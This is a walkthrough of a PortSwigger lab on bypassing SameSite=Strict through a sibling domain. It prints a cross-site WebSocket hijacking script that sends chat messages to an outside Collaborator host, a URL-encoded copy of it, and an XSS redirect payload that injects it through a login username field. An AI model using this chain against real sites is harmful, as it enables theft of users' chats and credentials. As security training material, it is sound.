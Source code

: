 ## Lab Description: SameSite Strict bypass via sibling domain 

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/e67ce03c-e03b-42a3-ac21-0882e2e65b81)

## Solution: 

Now we go to the lab website:

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/aa545927-d075-41ef-b2c3-ebe0ee7bf86d)

Ok, note that there is a “Live Chat” on the right-hand side on the top. We click that.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/a66b9d17-7bcf-4fd9-9523-e2015aa8f632)

This is because our browser has stored our sessions, and every time we visit this /chat webpage, our browser sends the session value.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/8eb3a9c4-3c46-4348-acae-397b959d430d)

- The SameSite=Strict property prevents the session from being sent if the web is visited through code (javascript) automatically. But if you are manually changing the address bar to visit the chat webpage, the session is allowed to be sent.
  And once you visit that /chat through code, your browser won’t send the session value and this value would be forgotten by your browser. This explains why refreshing does not see the chats.



  In the browser, go to the exploit server and use the following template to create a script for a CSWSH proof of concept:

```
<script>
    var ws = new WebSocket('wss://0aeb00f70330c49787095bd20001002f.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://q6xfzxmd09sge3zxbmgy9uwqnht8hy5n.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
Because this exploit visits the /chat webpage by code, thus no sessions would be sent, and you can not see the chat history at all! Since now the session is already forgotten by our browser, we need to re-enter some words in the /chat webpage and sent that again to create some chat history.

This web page contains a cross-site scripting (XSS) vulnerability. You can execute arbitrary javascript code in the Username field.

Store and view the exploit .

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/b75a4e18-9656-4f2e-936b-be1b95b503d8)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/f92a1076-24a3-4d30-8a3d-35e7b376a3ff)

URL encode the entire script.

```
%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%65%62%30%30%66%37%30%33%33%30%63%34%39%37%38%37%30%39%35%62%64%32%30%30%30%31%30%30%32%66%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%71%36%78%66%7a%78%6d%64%30%39%73%67%65%33%7a%78%62%6d%67%79%39%75%77%71%6e%68%74%38%68%79%35%6e%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e
```

Go back to the exploit server and create a script that induces the viewer's browser to send the GET request you just tested, but use the URL-encoded CSWSH payload as the username parameter.

```
<script>
    document.location = "https://cms-0aeb00f70330c49787095bd20001002f.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%65%62%30%30%66%37%30%33%33%30%63%34%39%37%38%37%30%39%35%62%64%32%30%30%30%31%30%30%32%66%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%71%36%78%66%7a%78%6d%64%30%39%73%67%65%33%7a%78%62%6d%67%79%39%75%77%71%6e%68%74%38%68%79%35%6e%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=anything";
</script>
```

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/384b0169-b479-4fa3-a64e-96e0c00e7fa0)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/da477b8c-9f56-43e9-90e2-c1bc4e3417cd)

Store and Deliver the exploit .

In Burp, go back to the Collaborator tab and click Poll now. Observe that you've received a number of new interactions, which contain your entire chat history.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/9a4ab69a-755f-4bdc-9304-d74854c4f0e9)

Study the HTTP interactions and notice that these contain the victim's chat history.Find a message containing the victim's username and password.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/cfd74a7b-886a-423d-8a96-26a4e747cae6)

username: `carlos`, password: `ru5zqhkhulw1lx6tnh3k`

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/30cc66b2-efbf-4559-ab62-cc1a112bcc4c)



